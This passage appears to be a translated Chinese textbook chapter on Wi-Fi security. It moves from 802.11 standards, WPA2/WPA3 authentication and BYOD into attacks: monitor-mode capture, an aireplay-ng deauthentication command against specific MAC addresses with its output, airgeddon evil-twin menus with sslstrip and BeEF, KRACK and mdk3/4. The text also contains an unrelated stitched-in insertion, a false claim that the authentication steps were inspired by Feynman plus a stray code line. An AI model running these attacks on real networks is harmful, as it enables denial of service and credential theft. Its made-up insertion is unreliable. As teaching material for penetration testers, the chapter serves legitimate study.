虽然早期的 802.11a 支持 5 GHz 和 2.4 GHz 双频段，但在消费者市场中并未广泛采用。直到 2009 年 802.11n 发布，5 GHz 才成为 Wi‑Fi 网络可行的频段。此后，802.11ac 以及提案的 802.11ax 也都被指定在 5 GHz 频段工作。这带来的问题是，已有的旧无线卡只能在其原本调谐的频段上工作；如果网络采用 802.11ac 并在 5 GHz 频段运行，而网络中仍有大量 802.11g 卡，这些卡将无法连接到新网络。

802.11n 大幅提升了无线接口的数据吞吐量，通过多输入多输出（MIMO）实现。MIMO 允许接口使用多个信道进行收发并将其绑定，突破了原本 54 Mbps 的限制，最高可达 600 Mbps。即使接入点支持 MIMO，但如果卡片本身不支持，仍会受限于单信道 54 Mbps 的上限。

802.11 使用信道以防止不同信号相互干扰。在美国，2.4 GHz 频段有 11 条可用信道。信道是频率的有限范围，类似于电视频道或无线电电台的频率分配，具体取决于所需的带宽。不同地区根据管理频谱的监管机构规定，可使用 14 条信道。若使用支持 5 GHz 频段的 802.11 版本，可用的信道数量因国家而异，且 5 GHz 的使用情况比 2.4 GHz 更不统一。后续版本已在 60 GHz 频段运行或计划运行，该频段仅有六条信道可用。

- [802.11]的不同版本之间的一个差异是信号预计能传输的距离。一些[802.11]版本仅能传输约[11]英尺的距离。其他版本预计可传输数百英尺。这取决于墙壁的数量和墙体的构成。[Wi‑Fi]信号在户外可以传播得更远，因为没有障碍物阻碍信号。室内情况则完全不同。在未实际进入建筑物的情况下，距离建筑物多远才能捕获信号取决于最近的接入点距离外部墙壁的近近程度以及窗户的数量。窗户通常会让信号顺畅通过。

- 从拓扑结构的角度来看，设置[Wi‑Fi]网络有两种不同的方式。其中一种比另一种更为常见，但两者都有可能出现。除此之外，还需要关注[Wi‑Fi]网络如何处理认证和加密。认证和加密机制都可能成为攻击无线网络的途径，尤其是当公司允许员工将个人设备连接到企业网络时。

## `Wi‑Fi` 网络类型

- 你会遇到两种无线网络。我们可以从拓扑结构讨论，因为这在技术上是相关的，尽管比有线网络更难以概念化。让我们尝试一下。第一种网络类型，也是在商业环境中较少见的，是自发（ad‑hoc）网络。自发网络不依赖任何中央路由或交换设备。Figure 11.1 展示了一个自发无线网络，其中不同类型的设备相互连接。你可以把它想象成一个动态的网格网络，每个设备直接与另一个设备通信。连接是在两个设备需要对话时动态建立的。当设备加入网络时，它会将信息分享给其他设备，其他设备随后知道如何建立连接以便通信。


**FIGURE 11.1** Wireless ad hoc network

- 并不是任何人都能随意连接到自发网络。自发网络启动时，需要给网络起名，并且可能需要密码才能访问。由于没有其他设备负责转发消息，自发网络中的所有设备必须在彼此的覆盖范围内，否则无法发送消息。自发网络也不提供加密。[Wi‑Fi Direct] 取代了自发网络，并支持设备间的加密。

- 虽然自发网络易于部署且速度快，但管理困难，且不适合企业环境。取而代之的是基础设施网络。基础设施网络有一个中心设备，充当交换机的角色。计算机之间不直接通信，所有消息都通过接入点传递。Figure 11.2 展示了基础设施网络。交换机控制电气信号，因此它决定了系统是否接收到流量；接入点则没有控制权，因为所有流量都在空中传播，只需一台能够捕获射频信号的无线电即可接收。


**FIGURE 11.2** Wireless infrastructure network

- 为了说明这一点，请查看 Figure 11.3。这是一段开启无线接口监听模式的 Wireshark 捕获。监听模式使 Wireshark 能够捕获所有无线电帧头部，即帧的第 1/2 层头部。该系统当前未连接到任何无线网络，可以类比于有线接口被断开。在这种情况下，Wireshark 不应捕获到任何流量，即使开启混杂模式，也没有内容。


**FIGURE 11.3** Wireshark capture of radio traffic

- 捕获内容显示大量流量，这是因为无线网络非常“聒噪”。没有电力连接指示系统网络已就绪，无线设备只能不断发送探测请求来发现网络。开启监听模式后，可以看到接入点与客户端之间的交互。例如，接入点会定期发送 beacon 帧以宣布网络的存在。客户端也会发送探测请求（probe request）以识别附近的网络。探测请求发出后，接入点会回复探测响应（probe response）。如果查看本地的无线网络列表，你会看到操作系统正在发送探测消息，以寻找网络。要连接到网络，首先必须识别该网络。

## `Wi‑Fi` 认证

- [Wi‑Fi] 网络上有多种认证方式。我们首先介绍一种简单的机器级认证。此方式下，客户端将自身注册到网络。为此，系统会发送探测请求以识别附近的无线网络。客户端在寻找服务集标识符（SSID），即网络的名称。可能会有多个接入点共享同一 SSID，因为大型设施的单个接入点信号不足以覆盖全部区域。为区分使用相同 SSID 的不同接入点，需要使用基础服务集标识符（BSSID），它看起来像 MAC 地址，从而让客户端能够与特定的接入点通信。你可以在 Figure 11.4 中看到多个 BSSID 共享同一 SSID 的示例。阿特兰蒂斯宾客（Atlantis‑Guest）网络就有两条记录，每条拥有自己的 BSSID，但共享相同的 SSID。


**FIGURE 11.4** Multiple BSSIDs for a single SSID

- 要让客户端连接到接入点，需要先进行认证。如果接入点开启了开放认证（Open Authentication），该过程相对简单。客户端发送认证请求，接入点通常回复“Successful”，随后客户端可进入下一阶段。

- 认证完成后，下一步是将客户端关联（associate）到网络。客户端向接入点发送关联请求，请求中包含该站点（station）的能力，如支持的版本和速率。这使得接入点与站点能够协商后续的通信方式。Figure 11.5 展示了完成认证并关联的过程图。


- [认证和关联步骤](https://example.org/authentication-and-association-steps)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，难以遗忘。

```
if (condVar > someVal) {console.log("xxx")}
```

# 四向握手用于 WPA2

一旦接入点拥有站点的随机数，它就可以推导出自己的 PTK。接入点会将 GTK 发送给站点，并随同一个 MIC。站点随后发送确认，四向握手即完成。四向握手完成了认证，因为只有拥有正确的密钥才能完成握手。

正如使用 WPA 时，个人认证和企业认证均可用，手握过程与认证方式无关，无论使用哪种认证方式。

个人认证需要预共享密钥。企业认证使用 802.1X 处理用户级认证，即连接网络的用户必须提供用户名和密码。所使用的认证框架是 EAP，且有多种 EAP 变体。Figure 11.7 显示了不同的 EAP 变体及其他可能使用的认证协议列表。此为 Linux 系统配置页面的截图，用于设置无线网络连接。

一些常见的变体是 Lightweight Extensible Authentication Protocol（LEAP）和 Protected Extensible Authentication Protocol（PEAP）。这些框架以及 EAP‑TLS 等其他框架，用于确保认证在受保护的通道中进行，认证参数不会以明文形式发送。此外，密钥交换也通过受保护的通道完成，通常是通过传输层安全（TLS）。这是 Web 流量加密的实现方式，使用证书和非对称密钥的公私钥加密。


**FIGURE 11.7** Wireless configuration under Linux

## Wi‑Fi Protected Access 3

2018 年，Wi‑Fi 联盟推出 Wi‑Fi Protected Access 3（WPA3），以解决 WPA2 的一些弱点。首先是支持更长的加密密钥，最高可达 AES‑256，并使用 SHA‑384 进行消息认证的密码学哈希。此外，WPA3 引入了 Simultaneous Authentication of Equals（SAE）以取代预共享密钥。使用预共享密钥是一个弱点，因为它是一段信息，可能难以完全保护。当预共享密钥用于认证时，任何获取该密钥的人都可以进行认证。SAE 是一种基于密码的认证策略，用于协商后用于加密站点与接入点之间会话的密钥。

使用 SAE 的认证和关联过程与前面描述的四向过程不同。这是 SAE 使用的过程。

1. 站点（STA）向接入点（AP）发送探测请求。

2. AP 向 STA 发送探测响应。

3. STA 向 AP 发送认证提交，用于在 STA 上生成 pairwise master key（PMK）。这是一个 802.11 认证帧。

4. AP 向 STA 发送认证提交，用于在 AP 上生成 pairwise master key。这也是一个 802.11 认证帧。

5. STA 向 AP 发送认证提交，这是一个 802.11 认证帧，包含用于 AP 验证的密钥生成的消息。

6. AP 向 STA 发送认证提交，这也是一个 802.11 认证帧，包含用于 STA 验证的密钥生成的消息。

7. 常规关联请求。

8. 常规关联响应。

9. 使用前面步骤生成的 PMK 进行四向握手。

WPA3 仍然强制使用 Counter Mode Cipher Block Chaining Message Authentication Code Protocol，即 CCM 模式协议（CCMP）。这是一组综合的密码协议，用于解决 WEP 弱点。它结合了加密、认证和完整性，确保消息未被篡改且来源于正确的端点，从而防止中间人攻击。CCMP 使用块密码进行加密，消息以固定长度块的形式加密。虽然中间人攻击（plaintext 可用于攻击加密）是可能的，但 CCMP 能够防范此类攻击。中间人攻击是通过利用明文来减弱密钥强度，从而使破解过程更易进行的攻击方式。

## Bring Your Own Device

你大概至少拥有一台移动设备，无论是智能手机、平板还是笔记本电脑。也可能是像 Microsoft Surface 这样的混合设备。由于这些设备的普及和易用性，人们随身携带它们，几乎随时都有智能手机在手。企业往往希望利用这些计算资源，因此可能会制定允许员工使用个人设备在企业网络上工作的政策。该政策通常称为 bring your own device（BYOD）。公司可能要求设备经过批准或满足最低要求。

允许个人设备接入网络的公司，通常通过无线网络实现，因为移动设备一般没有有线连接。这意味着它们可能没有网络访问控制（NAC）来限制哪些设备可以访问无线网络。可以通过阻止未在白名单上的 MAC 地址接入，防止未授权设备到达用户级认证环节。正如前文所述，WPA2 企业认证也通过要求用户进行认证来提供保护。

在通过 Wi‑Fi 访问网络时，另一个需要考虑的因素是网络隔离。企业常见做法是将 Wi‑Fi 客户端放入一个看似独立的网络，仿佛它位于企业之外。要访问内部企业资源，Wi‑Fi 网络上的任何人在认证后仍需使用虚拟专用网（VPN）来获得内部资源的访问。他们通过 WPA2‑Enterprise 认证和加密的受保护 Wi‑Fi 网络连接，然后再进行二次认证以打开通往内部网络的隧道。即使你获得了员工 Wi‑Fi 网络的访问权限（通常与客人 Wi‑Fi 网络分开），仍然很难轻松访问业务资产。

然而，已经拥抱 BYOD 的公司可能已经简化了获取资源的过程。当然，BYOD 并不是员工通过 Wi‑Fi 访问企业资源的唯一方式，但一旦启用 BYOD，通常意味着对设备接入没有限制，任何人都可以提供认证凭据来获得访问权限。

企业在允许 BYOD 的同时，常见做法是实现 guest network。这是一个独立的、隔离的网络，供不受信任的用户使用。为了获取企业资源，客户端可能需要使用 VPN 建立受信任的加密连接到内部网络。

## Wi‑Fi 攻击

- [攻击 Wi‑Fi 网络的不同方式](https://example.org) 首先，与任何类型的攻击一样，可以先进行侦察。你可以使用 Wireshark 和其他工具来完成这一点。当你在进行嗅探时，需要生成流量。一种方法是强制终端进行身份验证。你可以使用去认证攻击（deauthentication attack）来实现这一点。另一种攻击方式是所谓的 `evil twin`。这是一个恶意接入点，但它模仿合法的接入点。还有一种称为 KRACK（关键重新安装攻击）的攻击，可以用来迫使终端以攻击者能够轻松解密的方式发送消息。

## 无线足迹探测

无线足迹探测是识别区域内的无线网络或理解这些无线网络边界的过程。有些人称之为 war‑driving，这是一个较旧的术语。你可以使用 Kismet（在 Linux 系统上）或 WiFi Explorer（在 macOS 上）等多种工具进行此操作。这些工具会列出所有正在广播的无线网络，并提供信号强度读数，让你对距离接入点的远近有一个直观感受。

环境因素会影响网络的覆盖范围。建筑材料会影响信号衰减。胶合板和干 wall 对无线信号几乎没有阻挡作用，而混凝土则会产生显著的信号损失。放置在混凝土建筑内的无线设备可能无法在建筑外部访问。玻璃的影响有限，因此即使建筑是混凝土结构，只要有足够多的窗户，信号仍然可以传出。将接入点远离窗户可以帮助保护信号不外泄。砖块和石材也对无线信号提供显著的阻挡。

无线足迹探测的一个局限是所使用的天线技术。大多数无线天线是全向的，一次性向四周发射信号，导致信号强度分散。接收天线同样是从四面八方接收。提高信号强度的方法是使用能够聚焦信号的设备，使接收天线接收到的信号更强。长期以来人们认为，将 Pringles 罐与无线天线配合使用可以增强信号强度。只要这种做法可行，它之所以有效是因为它将天线转变为定向天线，从而让更多的信号命中天线，提升接收质量。这也意味着你需要移动天线，因为它只能从你指向的方向接收信号。

## 捕获流量

如前所述，Wireshark 可以捕获包括无线电头在内的网络流量。无线电头在信息收集时非常重要，但它并不是唯一携带信息的头部。你需要查看所有来自接入点的 beacon 以及站点与接入点之间可能发送的认证消息。为了看到完整的协议栈，需要将无线网卡设置为监听模式。实现此目的的一种方法是使用 `aircrack-ng` 包中的 `airmon-ng` 程序。下面的代码片段展示了使用 `airmon-ng` 将无线网卡创建为监听接口的过程。最终，你将拥有一个新接口，用于收集无线电流量和其他流量。

### 使用 airmon-ng

```
root@quiche:~# airmon-ng start wlan0

Found 3 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

   PID Name
   640 wpa_supplicant
   30835 NetworkManager
   30859 dhclient

   PHY      Interface     Driver          Chipset

   phy0     wlan0           rt2800usb     Ralink Technology, Corp. RT5372

              (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
              (mac80211 station mode vif disabled for [phy0]wlan0)
```


你会注意到开头有一些警告。这是因为本 Linux 版本管理网络接口。`airmon-ng` 需要能够对网络接口进行修改，最好在运行它时不要有管理接口的进程。虽然本例在 Linux 下运行，但 `aircrack-ng` 也提供 Windows 版本，同样的程序可以在 Windows 上使用。监听接口创建完成后，你可以像使用其他网络接口一样使用它。你可以使用 `tcpdump` 捕获通过监听接口传输的所有网络流量。下面的代码片段展示了使用 `tcpdump` 通过 `wlan0mon`（由 `airmon-ng` 创建）进行捕获的过程。

## 使用 tcpdump 与监听接口

```
root@quiche:~# tcpdump -i wlan0mon
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on wlan0mon, link-type IEEE802_11_RADIO (802.11 plus radiotap header), capture size 262144 bytes
20:49:20.747433 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Data IV:8cae Pad 20 KeyID 2
20:49:21.190521 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:21.387878 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Probe Request (WifiMyqGdo) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.403289 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Probe Request (WifiMyqGdo) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.537165 1.0 Mb/s 2457 MHz 11b -47dBm signal antenna 1 Probe Request (ZoeyWasHere) [1.0 2.0 5.5 11.0 Mbit]
20:49:21.589809 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Acknowledgment RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:21.689230 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:23.247016 1.0 Mb/s 2457 MHz 11b -67dBm signal antenna 1 Acknowledgment RA:ec:aa:a0:4d:31:a8 (oui Unknown)
20:49:23.250814 1.0 Mb/s 2457 MHz 11b -65dBm signal antenna 1 Acknowledgment RA:f6:aa:a0:4d:31:a8 (oui Unknown)
20:49:23.594399 1.0 Mb/s 2457 MHz 11b -19dBm signal antenna 1 Acknowledgment RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:23.602831 1.0 Mb/s 2457 MHz 11b -21dBm signal antenna 1 Beacon (CasaChien) [1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 Mbit] ESS CH: 11, PRIVACY
20:49:24.258485 1.0 Mb/s 2457 MHz 11b -43dBm signal antenna 1 Clear-To-Send RA:64:1c:b0:94:ba:57 (oui Unknown)
20:49:24.635482 1.0 Mb/s 2457 MHz 11b -57dBm signal antenna 1 Probe Request (CasaChien) [1.0 2.0 5.5 11.0 6.0 9.0 12.0 18.0 63.5 Mbit]
20:49:24.656324 1.0 Mb/s 2457 MHz 11b -51dBm signal antenna 1 Acknowledgment RA:18:d6:c7:7d:ee:11 (oui Unknown)
20:49:24.658753 1.0 Mb/s 2457 MHz 11b -51dBm signal antenna 1 Acknowledgment RA:70:3a:cb:52:ab:fc (oui Unknown)
```

从 `tcpdump` 输出可以看到所有的无线电流量，包括信号信息。你可以看到使用的频率为 2457 MHz，所有消息均使用该频率。你还可以看到信号强度，以 dBm 表示，是相对于一毫瓦的对数比值。dBm 本身不是比值，而是一个绝对值，以 milliwatt 为基准。它是无线网络中测量信号强度的标准方式。最佳信号强度为 –10 dBm。你可以看到 –19 dBm 到 –67 dBm 的数值，这些仍然是可用的信号。无线网络的最低可用信号约为 –100 dBm，超过此值则不可用。

- [tcpdump]输出中可看到的都是用于网络的探测请求。这些探测请求来源于曾经连接到这些网络的设备。例如，有一个具有无线功能的车库门开启器正在尝试寻找名为 `WifiMyqGdo` 的网络。该设备在出厂时已被配置为使用该网络。

如果你尝试进行恶意双胞胎攻击，这些信息可能会有用。不过，你可能还想从数据包捕获中获取其他信息。你可以直接写出数据包捕获内容。下面的列表展示了如何使用 `tcpdump` 写出数据包捕获。由于我们使用的是监听接口，仍然能够获取所有的无线电信息。

## Writing a Capture from a Monitor Interface

```
root@quiche:~# tcpdump -w radio.pcap -i wlan0mon

tcpdump: listening on wlan0mon, link-type IEEE802_11_RADIO (802.11 plus radiotap header), capture size 262144 bytes

^C125 packets captured

126 packets received by filter

0 packets dropped by kernel
```

一旦你保存了数据包捕获，就可以在像 Wireshark 这样的程序中打开它。Figure 11.8 显示了前面提到的同一个探测请求的更详细内容。这里你不仅可以看到 SSID，还能看到设备请求的某些功能。你还会看到设备请求的信道以及设备的厂商 ID。这正是让人确信这是车库门开启器的原因。发送设备的厂商 ID 为 `Chamberlain Group`，即拥有 LiftMaster 车库门开启器的公司。你还会看到探测请求中包含 Broadcom 厂商特定信息。Broadcom 是一种常见的无线芯片制造商，这表明该无线设备预期了解 Broadcom 的功能，并希望使用其中的某些功能。


**FIGURE 11.8** Probe request in Wireshark

Wireshark 还能提供关于无线连接的额外信息，这些信息在 `tcpdump` 中是看不到的。在 Figure 11.9 中，你可以看到无线电头信息。这包括信道频率和编号以及信号强度。理论上，信号强度可以指示你正在观察的无线电的 proximity（接近程度）。这假设所有无线电和天线大致相当，即信号强度是距离的函数。实际上，然而，还有很多其他因素，包括信号穿过的材料。例如，信号穿过混凝土或金属时通过性很差。


**FIGURE 11.9** Radio headers in Wireshark

无线电头和其他无线数据包可以提供我们一些信息。其中一个挑战是，除非你知道想要窃听的无线网络的信道，否则你会漏掉数据。如果你只是想普遍收集数据，可以尝试频率或信道跳转，前提是你的网卡驱动支持此功能。进行信道跳转时，你会在每个新信道上监听，从而漏掉其他所有信道上的数据。这同样是无线网卡的局限性，正如其他无线电一样。你只能在单一频率上调谐。这意味着在进行实际捕获前，最好先进行一些扫描，以确定你真正关心的网络所在的信道。

## Deauthentication Attack

Deauthentication 攻击发送消息，迫使设备重新与接入点进行身份验证，实际上会将设备踢出网络，使其重新建立关联。这也是使用 `aircrack` 套件工具的另一个场景。本例中，我们将使用 `aireplay-ng`。正如所述，接口必须处于正确的信道，以便知道发送消息的频率。在 Linux 下，这通过 `iwconfig` 程序实现；在 Windows 下，则通过无线网卡的属性进行设置。下面的代码示例展示了如何设置正确的信道并运行 deauthentication 攻击，你会看到发送了 10 条 deauthentication 消息。

## Deauthentication Attack

```
root@quiche:~# sudo iwconfig wlan0mon channel 6

root@quiche:~# aireplay-ng -0 10 -a C4:EA:1D:D3:78:39 -c 64:52:99:50:48:94 wlan0mon

18:22:59  Waiting for beacon frame (BSSID: C4:EA:1D:D3:78:39) on channel 6

18:23:00  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|62 ACKs]

18:23:00  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|60 ACKs]

18:23:01  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|34 ACKs]

18:23:01  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|32 ACKs]

18:23:02  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|61 ACKs]

18:23:02  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|57 ACKs]

18:23:03  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|59 ACKs]

18:23:03  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 1|56 ACKs]

18:23:04  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|55 ACKs]

18:23:05  Sending 64 directed DeAuth (code 7). STMAC: [64:52:99:50:48:94] [ 0|43 ACKs]
```

执行此攻击需要你拥有接入点的 BSSID，即用于帧头的设备 MAC 地址。你还需要目标设备的 MAC 地址，即你想要发起 deauthentication 攻击的设备。你也可以通过省略 `‑c` 参数来对所有站点进行 deauthentication，从而跳过客户端 MAC 地址。为了获取更多运行此攻击的细节，你可以使用 `airodump-ng`，这是 `aircrack-ng` 套件中的另一个程序。下面的列表展示了 `airodump-ng` 的输出示例。你会看到系统在范围内的所有 BSSID，以及功率水平、 beacon 数量、信道号等信息。列表底部会显示站点及其关联的 SSID。

## Using airodump-ng to Acquire Information


```
CH  6 ][ Elapsed: 6 mins ][ 2018-12-16 18:22
 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 18:D6:C7:7D:EE:11  -21      309      955    0  11  195  WPA2 CCMP   PSK  CasaChien
 C4:EA:1D:D3:78:39  -36      218       16    0   6  130  WPA2 CCMP   PSK  CenturyLink5191
 70:3A:CB:52:AB:FC  -40      211        0    0  11  130  WPA2 CCMP   PSK  CasaChien
 70:3A:CB:15:F5:A1  -41      139      121    0   1  130  WPA2 CCMP   PSK  CasaChien
 FA:8F:CA:6C:2D:6D  -42      160        0    0  11  130  OPN              Master Bedroom TV.m
 70:3A:CB:4A:41:3B  -44      211      156    0   6  130  WPA2 CCMP   PSK  CasaChien
 92:CD:B6:13:FE:3C  -55      196        0    0   6   65  OPN              HP-Setup>3c-M277 LaserJet
 70:8B:CD:CD:92:30  -65      164       17    0  11  195  WPA2 CCMP   PSK  Hide_Yo_Kids_Hide_Yo_WiFi
 EC:AA:A0:4D:31:A8  -67        0        0    0   9  195  WPA2 CCMP   PSK  HOME-C377-2.4
 A0:04:60:21:34:12  -66        0        6    0   9  -1   WPA              <length:  0>
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 
 (not associated)   94:9F:3E:01:10:FB  -36    0 - 0      0       23   Sonos_lHe9qyhhveucJ2UnQWM67LjZ9g
 (not associated)   F0:18:98:0C:34:69  -38    0 - 1      0        2
 (not associated)   F0:6E:0B:69:60:1B  -40    0 - 1      0       12
 (not associated)   78:28:CA:09:8E:41  -46    0 - 0      0       45   Sonos_lHe9qyhhveucJ2UnQWM67LjZ9g
 (not associated)   94:9F:3E:00:FD:83  -46    0 - 0      0       41   Sonos_lHe9qyhhveucJ2UnQWM67LjZ9g
 (not associated)   94:9F:3E:0F:1D:81  -46    0 - 0      0       45   Sonos_lHe9qyhhveucJ2UnQWM67LjZ9g
 (not associated)   38:8B:59:20:E9:DF  -48    0 - 1      0       21
 (not associated)   90:CD:B6:13:7E:3C  -50    0 - 1      0       34   ZoeyWasHere
 (not associated)   64:52:99:50:48:94  -64    0 - 1      0       22   WifiMyqGdo
 (not associated)   C0:97:27:5A:2D:F1  -68    0 - 1      0        2
 (not associated)   34:7C:25:25:AB:92  -56    0 - 1      0        2
 18:D6:C7:7D:EE:11  38:F7:3D:04:92:79  -34    0e- 0e    22      517
 18:D6:C7:7D:EE:11  64:1C:B0:94:BA:57  -46    0 - 1e     0       17
 18:D6:C7:7D:EE:11  94:9F:3E:0F:1D:80  -46   54 -24      0      136
 18:D6:C7:7D:EE:11  F0:81:73:95:8C:47  -58    0e- 6e     0      113
 18:D6:C7:7D:EE:11  94:9F:3E:00:FD:82  -44   18 -24      0        7
 70:3A:CB:15:F5:A1  94:9F:3E:01:10:FA  -36   54 -24      0       38
 70:3A:CB:15:F5:A1  00:FC:8B:AB:0B:B8  -44    0e- 6e     0       17
 70:3A:CB:4A:41:3B  78:28:CA:09:8E:40  -46   48 -24      0       80
 
 
```

有几个原因让你想要运行去认证攻击。第一个是获取隐藏的扩展服务集标识符（ESSID）。由于 ESSID 不会被广播，你无法从接入点的广播信息中获取它。不过，你可以从正在尝试与接入点关联的设备中获取 ESSID。如果你强制客户端处于未认证状态，该设备将需要重新认证，从而在重新关联时让你捕获其 ESSID。

另一个原因是捕获关联过程中的握手。在 WEP 中，此流量可用于提取加密密钥。这意味着如果你同时捕获了所有加密流量，就可以对其进行解密。这是因为初始化向量（IV）的计算存在弱点——IV 是用于种子密钥的随机数，但它并非真正随机，因而可被识别。这在 WPA2 中不存在。WEP 的弱点不适用于 WPA2。这并不表示 WPA2 没有其他攻击方式。

### 恶意双子

恶意双子是一种伪装成合法接入点的恶意接入点，即它广播已知的 SSID。你可能认为这很容易实现。你只需设置一个接入点并让设备关联到它即可。这可能并不能帮助你太多。你可以让系统连接到你控制的网络，希望能 compromising 它们。你也可以捕获未加密的网页流量，其中可能包含用户名和密码。不过，更好的做法是从设备上收集信息，例如认证信息或所需的 PSK，这将使你能够访问企业网络。获取这些信息需要的不仅仅是一个接入点。

理想情况下，你会拥有一种智能交互设备的方式，以收集设备可能拥有的信息。如果你想使用恶意双子攻击，有几个程序能让你的工作更轻松。其中一个是 `wifiphisher`，它可以在劫持合法接入点的同时冒充无线网络，并将流量重定向到由你管理的站点。这意味着你无需担心加密问题，如果你想假装成常见的网站。你不必尝试解密流量，因为你可以直接从你的网页捕获它。

另一个可用的工具是 `airgeddon`。这是一个在 Linux 发行版上运行的程序，可用于多种无线攻击。下面的代码片段展示了程序启动后的初始菜单，它会先检查系统兼容性以及所有所需工具和库的存在情况。许多攻击需要将接口放入监听模式，`airgeddon` 可以完成此操作。与在攻击过程中手动将接口切换到监听模式不同，它提供了一个菜单选项。你也会看到有一个“握手工具”菜单选项，这里可以捕获关联时产生的握手。

#### airgeddon 攻击菜单

```
 Interface wlan0 selected. Mode: Managed. Supported bands: 2.4Ghz
 
 Select an option from menu:
 ---------
 0.  Exit script
 1.  Select another network interface
 2.  Put interface in monitor mode
 3.  Put interface in managed mode
 ---------
 4.  DoS attacks menu
 5.  Handshake tools menu
 6.  Offline WPA/WPA2 decrypt menu
 7.  Evil Twin attacks menu
 8.  WPS attacks menu
 9.  WEP attacks menu
 ---------
 10. About & Credits
 11. Options and language menu
 
 
```

我们之前在谈论恶意双子攻击。这也是一个菜单选项。选择“恶意双子攻击菜单”后，你会看到另一组菜单选项。同样，你可以将接口放入监听模式。你还可以选择不同类型的恶意双子攻击。单纯创建一个恶意双子接入点是个起步，但如果你使用该攻击，还需要其他工具来捕获数据。让 `airgeddon` 为你完成完整攻击是最简便的。你可以看到除了恶意双子之外，还可以启用嗅 sniffing（抓包）和 `sslstrip`。使用 `sslstrip` 可以帮助潜在地解密网页流量。如果攻击成功，你将获得纯文本的网页流量。你也可以使用 `bettercap` 在仅捕获无线流量的基础上进行欺骗攻击。这也可以让你利用浏览器利用框架（BeEF）来利用浏览器漏洞，从而通过他人的浏览器 compromising 系统。

#### 恶意双子攻击菜单

```
Interface `wlan0` 已选中。模式：Managed。支持的频段：2.4Ghz

已选 BSSID：None

已选信道：None

已选 ESSID：None

从菜单中选择一个选项：

---------

0.  返回主菜单

1.  选择另一个网络接口

2.  将接口设置为监听模式

3.  将接口设置为受控模式

4.  探测目标（需要监听模式）

---------------（不抓包，仅 AP）----------------

5.  恶意双胞胎攻击仅 AP

---------------------（带抓包）---------------------

6.  恶意双胞胎 AP 攻击带抓包

7.  恶意双胞胎 AP 攻击带抓包和 sslstrip

8.  恶意双胞胎 AP 攻击带抓包和 bettercap-sslstrip2/BeEF

------------（不抓包， captive portal）------------

9.  恶意双胞胎 AP 攻击 captive portal（需要监听模式）

---------
```

`airgeddon` 需要两个无线接口才能执行恶意双胞胎攻击。它需要第二个接口用于 DoS 追踪模式，以防止频率跳变这一可能的防护。第二个接口还用于对合法接入点进行拒绝服务攻击，从而使其无法响应站点而响应伪装接入点。

虽然 `airgeddon` 是一个有用的工具，但它并没有什么独特之处。它在内部使用了一系列你已经拥有的工具，例如 `hostapd`、DHCP 服务器、DNSSpoof 以及轻量级 HTTP 服务器。`airgeddon` 的优势在于它将这些工具整合在一起。这样，复杂的多工具攻击就变得 considerably 更容易。你只需要运行 `airgeddon`，而无需分别设置多个工具并确保它们按正确顺序运行。

## Key Reinstallation

迄今为止，你可能产生了这样的印象：使用 WPA2 的无线网络在没有冒充合法无线网络的情况下，是难以攻击的。当设备进行四次握手时，结果是一个会话密钥，用于加密和解密。这个会话密钥在站点与接入点保持连接期间使用。由于这些密钥随时间可能被破坏，它们通常在长连接期间会被更换。这不仅是会话密钥的问题。由于会话密钥是派生而非事先已知的，如果攻击者能够强制在密钥派生过程中使用已知值，那么该密钥就可以被攻击者所知。

四次握手用于让站点和接入点基于在两端之间传递的随机值（nonce）派生密钥。握手的第三条消息中，客户端拥有安装会话密钥所需的全部内容。由于数据包可能丢失，尤其是站点离接入点较远时，第三条消息可能会被重传多次。我们可以利用这一点重放先前捕获的消息。如果能够强制使用已知的 nonce 值，加密密钥就会被攻击者所知。一旦密钥被知晓，数据包可以被解密，甚至可以注入通信通道。

如果 nonce 值的传输可以被重放，则任何密钥创建都面临攻击。这不仅影响站点与接入点之间的会话密钥，也影响组密钥。这会导致无线网络的组播和广播传输暴露。无论是 WPA 还是 WPA2、企业版还是个人版的现代无线网络，都可能受到此类攻击的影响。截至本文撰写时，仍有不多的工具能够自动化利用此 Key Reinstallation Attack（KRACK）。不过，针对网络组件的修复已经可用，这应该不再是大问题。

## Using `mdk3/4`

存在多种用于无线攻击的工具。其中 `mdk3/4` 可以用于多种攻击类型。它可以进行 beacon flooding、认证拒绝服务攻击、deauthentication 攻击以及其他测试。该工具可在 Kali Linux 和 ParrotOS 上安装，两个版本在两个操作系统中均有提供。要开始使用，需要在无线接口上开启监听模式。可以使用 `airmon-ng`（来自 Aircrack 工具包）来实现。下面是用于在通道 1 上开启监听模式的命令，针对接口 `wlan0`：

```
kilroy@portnoy $ airmon-ng start wlan0 1
```

